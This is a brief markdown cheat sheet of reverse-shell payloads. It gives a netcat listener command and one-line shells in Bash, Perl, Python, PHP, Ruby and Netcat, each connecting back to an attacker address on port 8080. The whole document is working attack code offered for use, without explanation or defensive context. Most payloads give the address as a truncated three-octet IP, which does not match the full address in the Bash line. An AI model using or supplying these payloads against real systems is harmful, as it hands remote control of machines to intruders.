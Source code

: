 # Code Execution

## Attacker Listening
```cmd
nc -vv -l -p 8080
```

## Payloads
- BASH
```
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
- PERL
  - ```perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
- Python
  - ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
- PHP
  - ```php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'```
- Ruby 
  - ```ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```
- Netcat 
  - ```nc -e /bin/sh 10.20.14 8080```
